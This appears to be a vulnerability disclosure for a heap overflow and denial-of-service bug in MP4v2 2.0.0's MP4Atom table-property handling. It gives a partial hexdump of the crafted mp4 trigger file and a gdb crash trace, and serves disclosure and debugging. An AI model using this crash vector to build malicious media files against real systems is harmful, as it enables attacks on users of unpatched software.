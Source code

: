 
MP4v2_BOF

The MP4Atom class in mp4atom.cpp in MP4v2 through 2.0.0 mishandles
Entry Number validation for the MP4 Table Property, which allows
remote attackers to cause a denial of service (overflow, insufficient memory allocation, and segmentation fault) or possibly have unspecified other impact via a crafted mp4 file.


MP4v2 through 2.0.0

Mp4 Table Property that checks Entry number has a vulnerability with opening a maliciously craft mp4 file. It causes Memory crash and Denial-Of-Service.

 root@ubuntu:/home/wim# hexdump -C wim.mp4 | grep 63
 00000020  de 36 00 00 6c 69 62 66  61 61 63 20 31 2e 32 36  |.6..libfaac 1.26|
 00000330  3e ff af f3 c7 0b ba b2  a5 51 2a b2 63 43 ed ba  |>........Q*.cC..|
 00000500  ac 08 90 50 56 14 81 5c  70 aa 05 ef 34 1a a4 63  |...PV..\p...4..c|
 00000510  a8 63 26 5d 78 02 04 08  08 01 6a a7 72 00 85 50  |.c&]x.....j.r..P|
 00000630  cb 58 02 6a 02 02 80 2e  00 00 04 c0 12 01 70 00  |.X.j..........p.|
 00000880  9f ce 33 e1 f6 03 b3 e6  63 fd be d7 25 3f 38 d9  |..3.....c...%?8.|
 00000bd0  00 00 00 99 00 00 00 28  73 74 73 63 00 00 00 00  |.......(stsc....|
 00000c00  73 74 63 6f 00 00 00 00  00 00 00 03 00 00 00 20  |stco........... |
 00000c10  00 00 04 ab 00 00 08 df  00 00 00 20 63 74 74 73  |........... ctts|

 insufficient checking on Entry Number in MP4 Table Property- m_pProperties[i] 0xC1C ~ 0xC1F in /src/mp4atom.cpp

 When overflow occurs, small size of data is allocated and while reading data, crash occurs due to a memory reference error

 gdb-peda$ r ../wim.mp4
 Starting program: /home/wim/.libs/lt-mp4info ../wim.mp4
 /home/wim/.libs/lt-mp4info version 2.0.0
 ../wim.mp4:

 Program received signal SIGSEGV, Segmentation fault.

registers
 EAX: 0x80695c0 --> 0x0
 EBX: 0xb7fd5000 --> 0x171e40
 ECX: 0x0
 EDX: 0x0
 ESI: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 EBP: 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 ESP: 0xbfffe890 --> 0x80695c0 --> 0x0
 EIP: 0xb7f0af85 (<mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4])
 EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)

code
    0xb7f0af7e <mp4v2::impl::MP4Atom::~MP4Atom()+46>: xchg   ax,ax
    0xb7f0af80 <mp4v2::impl::MP4Atom::~MP4Atom()+48>: mov    edx,DWORD PTR [eax]
    0xb7f0af82 <mp4v2::impl::MP4Atom::~MP4Atom()+50>: mov    DWORD PTR [esp],eax
 => 0xb7f0af85 <mp4v2::impl::MP4Atom::~MP4Atom()+53>: call   DWORD PTR [edx+0x4]
    0xb7f0af88 <mp4v2::impl::MP4Atom::~MP4Atom()+56>: cmp    DWORD PTR [esi+0x44],edi
    0xb7f0af8b <mp4v2::impl::MP4Atom::~MP4Atom()+59>: jbe    0xb7f0afa0 <mp4v2::impl::MP4Atom::~MP4Atom()+80>
    0xb7f0af8d <mp4v2::impl::MP4Atom::~MP4Atom()+61>: mov    edx,DWORD PTR [esi+0x4c]
    0xb7f0af90 <mp4v2::impl::MP4Atom::~MP4Atom()+64>: add    edi,0x1
    
Guessed arguments:
 arg[0]: 0x80695c0 --> 0x0

stack
 0000| 0xbfffe890 --> 0x80695c0 --> 0x0
 0004| 0xbfffe894 --> 0xb7d736bc --> 0xf9
 0008| 0xbfffe898 --> 0xffffffff
 0012| 0xbfffe89c --> 0xb7fd5000 --> 0x171e40
 0016| 0xbfffe8a0 --> 0xb7fd5000 --> 0x171e40
 0020| 0xbfffe8a4 --> 0x8069510 --> 0xb7fd4108 --> 0xb7f0af50 (<mp4v2::impl::MP4Atom::~MP4Atom()>: push   edi)
 0024| 0xbfffe8a8 ("sttc\264W\354\267\020\225\006\b")
 0028| 0xbfffe8ac --> 0xb7ec57b4 (<mp4v2::impl::MP4StandardAtom::~MP4StandardAtom()+36>: mov    DWORD PTR [esp],esi)

Legend: code, data, rodata, value
 Stopped reason: SIGSEGV
 0xb7f0af85 in mp4v2::impl::MP4Atom::~MP4Atom (this=0x8069510, __in_chrg=<optimized out>) at src/mp4atom.cpp:66
 66         delete m_pProperties[i];

mp4v2-2.0.0(https://storage.googleapis.com/google-code-archive-downloads/v2/code.google.com/mp4v2/mp4v2-2.0.0.tar.bz2) - v2-2.0.0

i
